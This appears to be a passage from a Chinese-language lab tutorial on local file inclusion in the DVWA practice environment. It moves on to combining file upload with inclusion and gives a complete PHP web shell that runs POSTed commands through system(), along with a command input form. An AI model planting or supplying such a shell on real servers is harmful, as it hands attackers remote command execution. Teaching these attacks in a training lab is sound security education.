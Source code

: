 
我们可以看到造成这样的问题是因为它没有做任何的防范与过滤，使得攻击者有机可乘，访问设备上所有的文件，透露出很多的内容。

## 7. 文件包含进阶

若是你认为本地文件包含只有这样的能耐就错了，攻击手段往往都是通过多种小技巧，利用程序员的粗心来实现。同样本地文件的包含若是只是常看文件的话，价值还是不够大，不能让它曾经盛极一时。

试想我们若是配置着文件上传的功能，我们能做什么呢？

我们可以使用可以上传一个后门程序，然后让其包含进我们的当前页面，使其运行起来。这样我们不仅能够查看还能执行一些命令。

我们在本地准备这样的一个 php 文件（注意实在本地，也就是 shiyanlou 用户的终端里，而不是在虚拟机中，我们需要上传的）：

在终端中执行 `vim test.php` 来创建与编辑文件：

![start-vim](../imgs/wm_521.png)

然后输入这样的内容：

```php
<?php

system($_POST['cmd']);

echo '<form method="post" action="../../hackable/uploads/test.php"><input type="text" name="cmd"/><input type="submit"/></form>';

?>
```

第一句话是为了使用 cmd 来执行命令，第二句是为了提供一个输入框来输入一些命令，这样不用每次都去修改 URL，非常的麻烦（第二句中的地址如何而来，可以看下文便知）。

接着使用 `:wq` 来将其保存。

然后我们再次登陆 dvwa 中，然后进入 Upload 的上传环境：
